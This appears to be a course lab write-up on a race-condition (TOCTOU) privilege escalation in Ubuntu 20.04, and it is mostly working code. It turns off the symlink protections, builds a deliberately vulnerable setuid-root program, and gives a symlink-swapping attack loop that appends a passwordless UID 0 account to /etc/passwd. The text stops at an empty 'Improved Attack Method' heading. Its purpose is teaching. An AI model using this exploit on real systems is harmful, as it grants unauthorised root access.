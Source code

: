# Lab 1 - Race Condition

A race condition occurs when multiple processes access and manipulate the same data concurrently, and the outcome of the execution depends on the particular order in which the access takes place.

## Turning Off Countermeasures

To turn off race condition protections, in order to guarantee that the attack will be possible. In Ubuntu 20.04:

```bash
$ sudo sysctl -w fs.protected_symlinks=0
$ sudo sysctl fs.protected_regular=0
```

## Writing a vulnerable program

Vulp.c program:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main()
{
    char* fn = "/tmp/XYZ";
    char buffer[60];
    FILE* fp;

    /* get user input */
    scanf("%50s", buffer);

    if (!access(fn, W_OK)) {        // A
        fp = fopen(fn, "a+");       // B
        if (!fp) {
            perror("Open failed");
            exit(1);
        }
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    } else {
        printf("No permission \n");
    }

    return 0;
}
```

Internally, the verification in `A` will be in terms of the **Real UID** (current user ID), and `B` using the **Effective UID** (temporary ID, ). The goal of this attack is to gain root privileges by exploring the race vulnerability. If we change the meaning of the `tmp/XYZ` file between this two instructions (due to non-atomic operations), using for instance UNIX symbolic link (symblink), we could access the `etc/passwd` file content and write stuff.

To compile/run this vulnerable program:

```bash
$ gcc vulp.c -o vulp
$ sudo chown root vulp
$ sudo chmod 4755 vulp
```

## Choosing Our Target

We want to append one more line in `etc/passwd` file:

```note
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
```

- "test" will be our new username;
- "U6aMy0wojraho" guarantees that we don't need to fill the password field;
- "0" id, as the third argument, implicitly guarantees root privileges on this new user;

With this line, we can gain access to the machine using a root user.

## The Real Attack

race.c, the attack program:

```c
#include <unistd.h>
int main() {
	while(1) {
		unlink("/tmp/XYZ");
		symlink("/etc/passwd","/tmp/XYZ");
	}
	return 0;
}
```

To run and monitoring the attack, we'll use this bash script:

```bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]          # Check if /etc/passwd is modified
do
    echo "your input" | ./vulp      # Run the vulnerable program
    new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

We can run both programs in parallel in order to catch the expected result. 

## Improved Attack Method

